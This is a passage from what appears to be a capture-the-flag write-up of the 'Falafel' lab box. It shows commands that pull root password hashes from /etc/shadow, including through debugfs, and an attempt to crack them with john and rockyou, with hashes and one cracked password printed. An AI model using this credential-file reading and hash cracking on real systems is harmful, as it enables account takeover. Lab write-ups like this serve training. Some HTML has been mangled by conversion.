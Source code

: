     yossi@falafel:/dev/shm/.d$ cat strings | grep "^root" | grep ":::" | sort | uniq
    root:*:17379:0:99999:7:::
    root:!:17497:0:99999:7:::
    root:$6$1piR.vyE$147.7jQX3pd0twWI0S43cWqoldOrwOeezcMAwWG5zd5PD4SdvwfSq3B/bFVUeN5JGg9A4bQ7vi3xzmcCZOWlg.:17497:0:99999:7:::
    root:$6$Jk54H2c2$dDTYx8vLD9IEqayacM0lnPBjDkB3git9Hzbdmg1wAiginiUfqZvIAnVROsmRGjj64y00CnmDtb/Tqoy5JB/ED/:17498:0:99999:7:::


    yossi@falafel:/dev/shm/.d$ cat /etc/passwd | grep root
    root:x:0:0:root:/root:/bin/bash

    root@kali# cat unshadow
    root:$6$Jk54H2c2$dDTYx8vLD9IEqayacM0lnPBjDkB3git9Hzbdmg1wAiginiUfqZvIAnVROsmRGjj64y00CnmDtb/Tqoy5JB/ED/:0:0:root:/root:/bin/bash
    root:$6$1piR.vyE$147.7jQX3pd0twWI0S43cWqoldOrwOeezcMAwWG5zd5PD4SdvwfSq3B/bFVUeN5JGg9A4bQ7vi3xzmcCZOWlg.:0:0:root:/root:/bin/bash



`john` will crack the second one as `12345678`, but it doesn't work for
root. The first one doesn't crack with rockyou.

Going back in with `debugfs` confirms that that first one is the root
hash:



    debugfs:  cat /etc/shadow
    root:$6$Jk54H2c2$dDTYx8vLD9IEqayacM0lnPBjDkB3git9Hzbdmg1wAiginiUfqZvIAnVROsmRGjj64y00CnmDtb/Tqoy5JB/ED/:17498:0:99999:7:::
    ...
    yossi:$6$3KIuOhDI$/LlvzMdSC1PpDfF6M1wveXSWdhIu9qtceH73oGJNHEt23YWFTEeWCzmhFZ5Up15eI81a2864ZTixEaE4mgoFl/:17545:0:99999:7:::
    mysql:!:17497:0:99999:7:::
    moshe:$6$yg7fMHWF$8WroIeYKl.dl97FHZ4D80TzSPqSsLrJAKCfZpXbC9lgZBATYKNGFe07gRkMxMCB7LYu22RkWfNr/SS1Aav9vz0:17497:0:99999:7:::



I wasn't able to crack the root password.

### How the website works

Profiles are hardcoded:



    www-data@falafel:/var/www.md$ cat profile.php
    <?php include('authorized.php');?>
    <!DOCTYPE.md>
    .md>
    <head>
            <title>Falafel Lovers - <?php echo $_SESSION['user'];?></title>
            <?php include('style.php');?>
            <?php include('css/style.php');?>
    </head>
    <body>
    <?php include('header.php');?>
    <br><br>
